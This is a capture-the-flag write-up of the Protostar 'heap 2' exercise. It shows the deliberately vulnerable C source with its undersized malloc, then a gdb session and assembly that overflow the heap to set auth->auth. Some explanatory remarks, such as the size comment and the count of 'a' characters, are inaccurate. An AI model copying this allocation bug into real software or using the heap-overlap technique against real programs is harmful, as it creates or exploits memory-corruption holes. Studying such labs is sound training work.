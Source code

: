 # HEAP 2

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;
    
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));                  // <- bug is here. It must be sizeof(struct auth) = 36 (gcd(size of all elements, char, int))
      memset(auth, 0, sizeof(auth));                // sizeof(auth) = 4. 
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if(strncmp(line, "login", 5) == 0) {
      if(auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```

## OVERVIEW

- Target of this challenge is to make program print the "you have logged in already!". So to print that sequence, the `auth->auth`
must not be equal zero.

- If we notice the `malloc()` for auth, we can see that the `sizeof(auth)` will return `4` because of its type is pointer. And because its size is `4`, we will got the reference `auth->auth` out of allocations of `auth`. So we can just fill the memory forward of `auth->auth` to change the "wrong" size of `auth->auth`, then access the `printf` of target.

## DETAILS & EXPLOIT

- Debug the program, to make the program allocate `auth`, I enter `auth` and `abc`.
```
(gdb) run
Starting program: /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
(gdb) c
Continuing.
auth abc
[ auth = 0x804c008, service = (nil) ]
```

- Then program allocated `auth` in the heap its address is `0x804c008`, so, the root is `0x804c000`, check that address, i got this.

```
(gdb) x/50xw 0x804c000
0x804c000:      0x00000000      0x00000011      0x0a636261      0x00000000
0x804c010:      0x00000000      0x00000ff1      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
```

- Start of auth is `0x804c008`, so `0x804c008 + 0x20` is address of `auth->auth`. This is The disassembled code of `login if`.

```asm
.
.
.
0x08048a79 <main+325>:  call   0x804884c <strncmp@plt>    ; if (line == service)
0x08048a7e <main+330>:  test   eax,eax
0x08048a80 <main+332>:  jne    0x8048942 <main+14>              ; jump to else 
0x08048a86 <main+338>:  mov    eax,ds:0x804b5f4           ; address of auth pointer
0x08048a8b <main+343>:  mov    eax,DWORD PTR [eax+0x20]   ; value of auth->auth is stored to eax by dereference auth + 0x20.
0x08048a8e <main+346>:  test   eax,eax                          ; if (auth->auth)
0x08048a90 <main+348>:  je     0x8048aa3 <main+367>                     ; jump to else
0x08048a92 <main+350>:  mov    DWORD PTR [esp],0x804ada7        ; print "you have logged in already!"
0x08048a99 <main+357>:  call   0x804883c <puts@plt>
0x08048a9e <main+362>:  jmp    0x8048943 <main+15>
0x08048aa3 <main+367>:  mov    DWORD PTR [esp],0x804adc3
0x08048aaa <main+374>:  call   0x804883c <puts@plt>
0x08048aaf <main+379>:  jmp    0x8048943 <main+15>
End of assembler dump.
(gdb) x/s 0x804ada7
0x804ada7:       "you have logged in already!"
```

- So we just use `service` with "a"*16 (+ 1 for `'\n'` character) then the `auth->auth` is exactly `'\n'` or `0xa`.

```
(gdb) c
Continuing.
servic aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[ auth = 0x804c008, service = 0x804c018 ]

Breakpoint 2, 0x0804897c in main (argc=1, argv=0xbffffd64) at heap2/heap2.c:22
22      in heap2/heap2.c
(gdb) x/50xw 0x804c000
0x804c000:      0x00000000      0x00000011      0x0a636261      0x00000000
0x804c010:      0x00000000      0x00000029      0x61616161      0x61616161
0x804c020:      0x61616161      0x61616161      0x61616161      0x61616161
0x804c030:      0x61616161      0x61616161      0x0000000a      0x00000fc9
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
```

- By doing that, the value of `auth->auth` is

```
(gdb) x/xw 0x804c028
0x804c028:      0x0000000a
```

- And finally

```
(gdb) ni
0x08048a99      39      in heap2/heap2.c
0x08048a99 <main+357>:   e8 9e fd ff ff call   0x804883c <puts@plt>
(gdb) ni
you have logged in already!
```